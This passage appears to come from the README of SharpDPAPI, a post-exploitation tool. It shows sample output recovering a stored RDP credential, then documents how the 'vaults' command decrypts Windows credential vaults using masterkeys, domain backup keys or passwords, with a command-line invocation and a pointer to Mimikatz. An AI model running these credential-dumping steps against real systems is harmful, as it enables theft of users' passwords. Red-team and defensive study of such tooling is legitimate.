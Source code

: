 
 [*] Action: User DPAPI Credential Triage

 [*] Using a domain DPAPI backup key to triage masterkeys for decryption key mappings!

 [*] User master key cache:

 {42e95117-ff5f-40fa-a6fc-87584758a479}:4C802894C566B235B7F34B011316E94CC4CE4665
 ...(snip)...

 [*] Triaging Credentials for ALL users


 Folder : C:\Users\harmj0y\AppData\Local\Microsoft\Credentials\

 CredFile : 48C08A704ADBA03A93CD7EC5B77C0EAB

 guidMasterKey : {885342c6-028b-4ecf-82b2-304242e769e0}
 size : 436
 flags : 0x20000000 (CRYPTPROTECT_SYSTEM)
 algHash/algCrypt : 32772/26115
 description : Local Credential Data

 LastWritten : 1/22/2019 240 AM
 TargetName : Domain:target=TERMSRV/10.4.10.101
 TargetAlias :
 Comment :
 UserName : DOMAIN\user
 Credential : Password!

 ...(snip)...



#### vaults

The **vaults** command will search for Vaults and either a) decrypt them with any "{GUID}:SHA1" masterkeys passed, b) a `/mkfile:FILE` of one or more {GUID}:SHA1 masterkey mappings, c) use a supplied DPAPI domain backup key (`/pvk:BASE64...` or `/pvk:key.pvk`) to first decrypt any user masterkeys (a la **masterkeys**), or d) a `/password:X` to decrypt any user masterkeys, which are then used as a lookup decryption table. DPAPI GUID mappings can be recovered with Mimikatz' `sekurlsa::dpapi` command.

The Policy.vpol folder in the Vault folder is decrypted with any supplied DPAPI keys to retrieve the associated AES decryption keys, which are then used to decrypt any associated .vcrd files.

A specific vault folder can be specified with `/target\Folder\`. In this case, either a) {GUID}:SHA1 values must be supplied or b) the folder must contain DPAPI masterkeys and a /pvk domain backup key must be supplied.

Using domain {GUID}:SHA1 masterkey mappings:

 C:\Temp>SharpDPAPI.exe vaults {44ca9f3a-9097-455e-94d0-d91de951c097}:9b049ce6918ab89937687...(snip)... {feef7b25-51d6-4e14-a52f-eb2a387cd0f3}:f9bc09dad3bc2cd00efd903...(snip)...
 __ _ _ _ ___
 (_ |_ _. ._ ._ | \ |_) /\ |_) |
 __) | | (_| | |_) |_/ | /--\ | _|_
 |
 v1.2.0
